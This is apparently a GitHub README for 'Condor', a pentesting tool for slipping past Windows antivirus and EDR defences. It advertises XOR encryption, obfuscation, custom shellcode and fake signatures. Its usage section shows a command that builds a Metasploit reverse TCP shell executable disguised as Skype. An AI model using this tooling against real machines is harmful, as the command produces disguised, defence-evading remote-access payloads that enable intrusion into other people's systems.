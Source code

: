 <h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/IMG_20220930_052112.jpg
<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ | ✅ |
| Linux | ✅ | ❌ | ❌ | ❌ |
| Mac | not tested | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/trhacknon/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```
